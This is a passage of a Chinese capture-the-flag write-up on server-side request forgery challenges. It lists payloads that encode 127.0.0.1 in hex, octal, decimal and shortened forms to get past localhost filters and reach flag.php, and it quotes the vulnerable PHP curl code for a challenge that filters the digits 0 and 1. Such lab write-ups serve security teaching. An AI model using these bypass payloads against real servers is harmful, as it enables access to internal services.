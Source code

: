 过滤更加严格，但可以使用进制变换，和上一题类似

[IP地址进制转换网站](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

```
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
还有一种特殊的省略模式
127.0.0.1写成127.1
用CIDR绕过localhost
url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php


```

得到flag

### web354

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

该题过滤了0和1
